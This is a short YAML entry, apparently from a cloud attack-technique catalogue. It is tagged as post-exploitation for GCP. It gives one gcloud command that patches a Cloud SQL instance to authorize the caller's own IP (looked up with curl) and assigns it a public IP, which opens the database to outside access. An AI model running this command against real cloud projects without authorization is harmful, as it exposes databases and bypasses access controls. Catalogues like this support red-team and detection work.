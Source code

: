 ```yaml
---
description: |
  Patches a GCP SQL instance to authorize a new network and assigns an IP.
command: |
  gcloud sql instances patch $INSTANCE_NAME --authorized-networks "$(curl ifconfig.me)" --assign-ip --quiet
items:
  - Access Keys
services:
  - gcp
OS:
  - Internal
attack_types:
  - PostExp
references:
  - https://cloud.google.com/sdk/gcloud/reference/sql/instances/patch
---
```

